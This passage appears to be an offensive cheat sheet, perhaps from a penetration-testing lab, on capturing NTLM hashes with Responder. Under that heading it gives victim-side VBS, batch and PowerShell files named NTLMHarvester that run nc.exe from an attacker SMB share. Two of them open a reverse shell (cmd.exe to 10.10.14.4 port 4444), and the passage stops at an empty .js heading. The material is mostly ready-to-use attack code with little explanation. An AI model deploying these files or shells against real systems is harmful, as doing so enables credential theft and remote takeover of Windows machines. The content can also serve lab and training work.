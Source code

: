 A Visual Basic Script that can automate tasks or execute commands on a Windows system, often used for stealthy command execution.

## ⭐ Attacker


```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.vbs

```
Set objShell = CreateObject("WScript.Shell")
objShell.Run "\\10.10.14.4\tools\nc.exe", 0, False
```
## 🐈‍⬛ .bat file 🐈‍⬛

A Batch file containing a series of commands that can be executed in the command prompt, often used for running scripts or commands.

## ⭐ Attacker
```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.bat

```
@echo off
start \\10.10.14.4\tools\nc.exe -e cmd.exe 10.10.14.4 4444
```
## 🐈‍⬛.ps1 file 🐈‍⬛

A PowerShell script file that can execute complex commands on Windows systems, capable of running various scripts and automating tasks.

## ⭐ Attacker

```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.ps1

```
Invoke-Expression -Command "Start-Process -FilePath '\\10.10.14.4\tools\nc.exe' -ArgumentList '-e cmd.exe 10.10.14.4 4444'"
```
## 🐈‍⬛ .js file 🐈‍⬛

A JavaScript file that can be executed via Windows Script Host, capable of running commands on a Windows machine.
